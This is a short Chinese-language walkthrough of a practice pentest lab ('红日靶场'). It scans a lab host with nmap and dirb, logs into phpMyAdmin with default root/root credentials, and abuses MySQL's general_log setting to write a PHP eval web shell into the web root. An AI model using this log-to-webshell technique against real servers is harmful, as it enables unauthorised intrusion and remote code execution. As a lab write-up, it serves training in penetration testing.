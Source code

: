 # 红日靶场

## 1、拿下web服务器

### 信息收集

> ip 10.10.10.132

#### nmap 扫描

```
nmap -vv 10.10.10.132
```

发现开启了端口有：

80web服务

3306 mysql	

```
Discovered open port 80/tcp on 10.10.10.132
Discovered open port 3306/tcp on 10.10.10.132
```

### 访问80端口

是一个phpinfo()页面:

![在这里插入图片描述](https://tva1.sinaimg.cn/large/e6c9d24ely1h0ium8ctrgj21ta0t67bn.jpg)

目录扫描得到

```
dirb 10.10.10.132
```

查看存在phpmyadmin

```
使用 root root 登录

#日志写了
Set global general_log='on';
Set global general_log_file='C:/phpStudy/WWW/www22.php';
show variables like 'general_log_file';

Select "<?php eval($_POST['pass']);?>";

Set global general_log_file='C:/phpStudy/WWW/w22.php';
```

获得webshell

![image-20220322185110242](https://tva1.sinaimg.cn/large/e6c9d24ely1h0iutl6vy6j20ji0ew0ui.jpg)
